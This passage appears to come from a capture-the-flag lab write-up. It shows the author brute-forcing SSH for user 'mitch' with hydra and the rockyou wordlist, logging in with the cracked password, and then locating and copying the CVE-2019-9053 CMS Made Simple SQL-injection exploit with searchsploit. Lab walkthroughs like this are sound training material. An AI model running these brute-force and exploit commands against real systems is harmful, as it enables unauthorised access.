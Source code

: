 	> get ForMitch.txt

	Now, on local shell

	> cat ForMitch.txt

	```
	Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
	```

	Possible username `Mitch` found.

## Attempting SSH login:

* ### SSH Login (user: mitch)

	> ssh -p 2222 mitch@$IP

	Login unsuccessful! Password protected.

* ### Using `hydra` to bruteforce SSH

	> hydra -l mitch -P /usr/share/wordlists/rockyou.txt ssh://$IP:2222/ | tee hydra.log

	```
	[2222][ssh] host: 10.10.216.127   login: mitch   password: secret
	```

	Password found!

* ### SSH Login (user/pass: mitch/secret)

	> ssh -p 2222 mitch@$IP

	Login successful! Shell obtained.


<br>

## Alternate approach (`exploit-db`):

We can find the username and password using exploit-db's SQL Injection script.

* ### Finding the exploit

	> searchsploit --cve 2019-9053

	```
	----------------------------------------------------- ---------------------
 	Exploit Title                                        |  Path
	----------------------------------------------------- --------------------- 
	CMS Made Simple < 2.2.10 - SQL Injection             | php/webapps/46635.py
	----------------------------------------------------- --------------------- 
	Shellcodes: No Results
	```

	Copying the script to the current directory

	> searchsploit -m php/webapps/46635.py
